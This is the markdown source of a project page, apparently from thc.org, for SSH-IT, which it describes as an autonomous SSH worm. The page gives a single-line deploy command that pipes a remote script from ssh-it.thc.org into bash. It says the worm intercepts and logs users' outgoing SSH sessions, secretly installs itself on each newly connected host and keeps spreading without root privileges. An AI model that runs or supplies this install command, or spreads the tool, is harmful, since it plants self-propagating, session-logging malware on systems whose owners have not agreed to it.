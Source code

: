 ```yaml
---
layout: default
title: SSH-IT
description: An autonomous SSH worm that intercepts outgoing SSH connections every time a user uses ssh.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<!-- <style>a[href="/ssh-it/"] { font-weight: bold; }</style> -->
<!-- End of ugly CSS navigation styling hack -->

{% include nav-ssh-it-v1.html margin-top="0" margin-bottom="4rem" %}

<div style="width:80%; margin:auto">
    <script id="asciicast-LNmtdthAM1WewOs12ZnHd8RyC" src="https://asciinema.org/a/LNmtdthAM1WewOs12ZnHd8RyC.js" async data-autoplay=1 data-speed="1.5"></script>
</div>

## Install / Deploy

SSH-IT can be installed and deployed with a [single command](deploy):

```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

[Read more](deploy) and learn some [tricks](deploy).

## What it does

SSH-IT intercepts outgoing SSH connections every time a user uses `ssh`. It logs the session and (secretly) installs itself onto the newly connected system. SSH-IT keeps intercepting, logging and spreading.

## How it works

SSH-IT executes the original ssh command inside a fake PTY harness and intercepts any user input and output. None of the system binaries are modified and it does not need `ptrace()`. It does not require root or superuser privileges.

Read our [detailed explanation](how-it-works) for more information.

## Contact

{% include contact-details.md %}

